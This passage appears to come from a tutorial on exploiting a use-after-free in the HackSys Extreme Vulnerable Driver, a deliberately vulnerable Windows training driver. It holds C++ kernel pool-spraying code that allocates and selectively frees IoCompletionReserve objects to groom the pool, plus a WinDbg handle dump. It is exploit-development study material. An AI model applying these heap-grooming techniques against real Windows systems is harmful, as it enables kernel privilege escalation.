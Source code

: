 ```cpp

        HANDLE hObject = 0x0;

        PHANDLE result = (PHANDLE)NtAllocateReserveObject((PHANDLE)&hObject,
            NULL,
            1); // specifies the correct object

        if (result != 0) {
            cout << "[!] Error allocating IoCo Object during defragmentation\n";
            exit(1);
        }
        sequential_handles.push_back(hObject);
    }

    cout << "[>] Sequential spray complete.\n";

    cout << "[>] Poking 0x60 byte-sized holes in our sequential allocation...\n";
    for (int i = 0; i < sequential_handles.size(); i++) {
        if (i % 2 == 0) {
            BOOL freed = CloseHandle(sequential_handles[i]);
        }
    }
    cout << "[>] Holes poked lol.\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29997] << "\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29998] << "\n";
    cout << "[>] Some handles: " << hex << sequential_handles[29999] << "\n";

    Sleep(1000);
    DebugBreak();
}

int main() {

    HANDLE hFile = grab_handle();

    //create_UAF_object(hFile);

    //free_UAF_object(hFile);

    //allocate_fake_object(hFile);

    spray();

    return 0;
}

```

We can see after running this and looking at one of the handles we dumped to the terminal (thanks FuzzySec!), we were able to get our pool looking the way we want. `0x60` byte chunks free surrounded by our IoCo objects. 
```
kd> !handle 0x2724c

PROCESS 86974250  SessionId: 1  Cid: 1238    Peb: 7ffdf000  ParentCid: 1554
    DirBase: bf5d4fc0  ObjectTable: abb08b80  HandleCount: 25007.
    Image: HEVDUAF.exe

Handle table at 89f1f000 with 25007 entries in use

2724c: Object: 8543b6d0  GrantedAccess: 000f0003 Entry: 88415498
Object: 8543b6d0  Type: (84ff1a88) IoCompletionReserve
    ObjectHeader: 8543b6b8 (new version)
        HandleCount: 1  PointerCount: 1
```